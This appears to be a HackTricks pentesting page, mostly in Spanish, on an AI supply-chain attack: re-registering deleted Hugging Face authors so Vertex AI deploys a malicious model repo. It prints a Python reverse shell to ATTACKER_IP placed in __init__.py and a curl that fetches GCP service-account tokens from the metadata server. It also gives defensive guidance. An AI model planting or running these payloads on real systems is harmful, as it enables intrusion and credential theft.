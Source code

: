 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Escenario

- Vertex AI Model Garden permite el despliegue directo de muchos modelos de Hugging Face (HF).
- Los identificadores de modelo de HF son Author/ModelName. Si un author/org en HF es eliminado, el mismo nombre de author puede ser re-registrado por cualquiera. Un atacante puede entonces crear un repo con el mismo ModelName en la ruta legacy.
- Pipelines, SDKs o catálogos cloud que obtienen por nombre solamente (sin pinning/integrity) descargarán el repo controlado por el atacante. Cuando el modelo se despliega, el loader code de ese repo puede ejecutarse dentro del contenedor del endpoint de Vertex AI, dando RCE con los permisos del endpoint.

Two common takeover cases on HF:
- Ownership deletion: La ruta antigua devuelve 404 hasta que alguien vuelve a registrar al author y publica el mismo ModelName.
- Ownership transfer: HF emite 307 redirects desde el antiguo Author/ModelName al nuevo author. Si el antiguo author es luego eliminado y re-registrado por un atacante, la cadena de redirects se rompe y el repo del atacante sirve en la ruta legacy.

## Identificando namespaces reutilizables (HF)

- Old author deleted: la página del author devuelve 404; la ruta del modelo puede devolver 404 hasta el takeover.
- Transferred models: la ruta del modelo antigua emite 307 al nuevo owner mientras el antiguo author existe. Si el antiguo author es posteriormente eliminado y re-registrado, la ruta legacy resolverá al repo del atacante.

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Flujo de ataque de extremo a extremo contra Vertex AI

1) Descubrir espacios de nombres de modelos reutilizables que Model Garden lista como desplegables:
- Encontrar modelos HF en Vertex AI Model Garden que todavía aparecen como “verified deployable”.
- Verificar en HF si el autor original fue eliminado o si el modelo fue transferido y el autor anterior fue posteriormente eliminado.

2) Volver a registrar al autor eliminado en HF y recrear el mismo ModelName.

3) Publicar un repo malicioso. Incluir código que se ejecute al cargar el modelo. Ejemplos que comúnmente se ejecutan durante la carga de modelos en HF:
- Efectos secundarios en __init__.py del repo
- Código personalizado modeling_*.py o procesamiento referenciado por config/auto_map
- Rutas de código que requieren trust_remote_code=True en Transformers pipelines

4) Una implementación de Vertex AI del Author/ModelName legado ahora descarga el repo del atacante. El loader se ejecuta dentro del contenedor del endpoint de Vertex AI.

5) El payload establece acceso desde el entorno del endpoint (RCE) con los permisos del endpoint.

Fragmento de payload de ejemplo ejecutado en import (solo para demostración):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notas
- Los loaders del mundo real varían. Muchas integraciones de Vertex AI HF clonan e importan módulos del repo referenciados en la config del modelo (p. ej., auto_map), lo que puede desencadenar ejecución de código. Algunos usos requieren trust_remote_code=True.
- El endpoint suele ejecutarse en un contenedor dedicado con alcance limitado, pero es un punto de apoyo inicial válido para el acceso a datos y movimiento lateral en GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Una vez que el código se esté ejecutando dentro del contenedor del endpoint, considera:
- Enumerar variables de entorno y metadatos en busca de credenciales/tokens
- Acceder a almacenamiento adjunto o a los artefactos del modelo montados
- Interactuar con Google APIs mediante la identidad de la cuenta de servicio (Document AI, Storage, Pub/Sub, etc.)
- Persistencia en el artefacto del modelo si la plataforma vuelve a descargar el repo

Enumerar metadatos de la instancia si son accesibles (depende del contenedor):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Guía defensiva para usuarios de Vertex AI

- Fijar modelos por commit en HF loaders para prevenir reemplazos silenciosos:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Replica modelos verificados de HF en un almacén/registro interno de artefactos de confianza y despliega desde allí.
- Escanea continuamente las bases de código y las configuraciones en busca de Author/ModelName codificados que hayan sido eliminados/transferidos; actualiza a los nuevos namespaces o fíjalos por commit.
- En Model Garden, verifica la procedencia del modelo y la existencia del autor antes del despliegue.

## Recognition Heuristics (HTTP)

- Autor eliminado: la página del autor 404; la ruta antigua del modelo 404 hasta la toma de control.
- Modelo transferido: la ruta antigua redirecciona 307 hacia el nuevo autor mientras el autor antiguo existe; si el autor antiguo luego es eliminado y re-registrado, la ruta antigua sirve contenido del atacante.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Referencias cruzadas

- Ver la metodología más amplia y notas sobre la cadena de suministro:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referencias

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
